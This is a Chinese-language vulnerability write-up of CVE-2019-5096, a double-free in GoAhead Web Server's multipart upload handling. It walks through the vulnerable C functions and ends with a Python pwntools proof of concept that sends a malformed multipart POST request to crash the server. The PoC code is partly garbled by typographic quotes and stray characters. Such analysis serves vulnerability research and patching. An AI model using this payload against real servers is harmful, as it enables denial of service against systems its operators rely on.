 # （CVE-2019-5096） GoAhead远程代码溢出漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2958](https://www.zhihuifly.com/t/topic/2958)

# （CVE-2019-5096） GoAhead 远程代码溢出漏洞

## 一、漏洞简介

GoAhead Web服务器最近被曝光在版本v5.0.1，v.4.1.1和v3.6.5中存在一个可利用的代码执行漏洞，漏洞存在http请求的multi-part/form-data字段处理中，若是发送畸形的HTTP请求，可导致GoAhead Web服务器在处理此请求期间触发double-free漏洞。 该畸形请求可以未经身份验证的GET或POST请求形式发送，并且请求的服务器上不需要存在web页面。

## 二、漏洞影响

v5.0.1，v.4.1.1和v3.6.5

## 三、复现过程

### 漏洞分析

漏洞曝光者给出了触发漏洞的源码：

```
/ src/upload.c /
66 static void freeUploadFile(WebsUpload *up)
67 {
68 if (up) {
69 if (up->filename) { // BUG: First UAF here
70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
71 wfree(up->filename); // BUG: Double free here
72 }
73
74 wfree(up->clientFilename);
75 wfree(up->contentType);
76 wfree(up);
77 }
78 } 
```

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c的websFreeUpload（）函数中调用，而websFreeUpload（）函数会在/src/http.c中调用，/src/http.c中termWebs（）函数会调用websFreeUpload（）函数，/src/http.c中reuseConn（）函数会调用termWebs（）函数，从中可以看出漏洞触发函数freeUploadFile（）的调用过程。

在函数freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：

```
/ src/upload.c /
255 freeUploadFile(wp->currentFile);
256 file = wp->currentFile = walloc(sizeof(WebsUpload)); 
```

在此处变量 wp->currentFile会被free一次，但是被free的变量wp->currentFile在代码：

```
/ src/upload.c /
371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
372 defineUploadVars(wp); 
```

在此处代码中把变量wp->currentFile加入了一个数组中，该数组中的变量在接下来的代码中会被free一次，free代码如下：

```
/ src/upload.c /
86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
87 up = s->content.value.symbol;
88 freeUploadFile(up); 
```

变量wp->currentFile再次被free之后，导致了double-free漏洞触发，是fastbin double free，利用方法和思路已经很成熟。

### poc

> https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit

```
from pwn import *
import time
import sys
r = remote(sys.argv[1],8080)
rn = b"\r\n"

payload=b’’

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data; name=“shit1”; filename=“shit.file”;"+rn

payload+= rn

payload+=b"HelloWorld!"+rn

payload +=b"–siiit"+rn

payload +=b"Content-Disposition: form-data;  name=“shit2”; filename=“shit2.file”"+rn

payload+= rn

payload+=b"FuckkWorld!"+rn

payload +=b"–siiit"+rn

data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"

data +=b"content-type:multipart/form-data"+rn

data +=b"content-type:boundary=siiit"+rn

data +=b"content-length:"+str(len(payload)).encode()+rn

data +=b"cookie:"+b’a’*0x1+rn

data +=rn

data +=payload `r.send(data)

sleep(20)

try:

dat=r.recvn(1024)

print(dat)

r.close()

except:

r.close()` 
```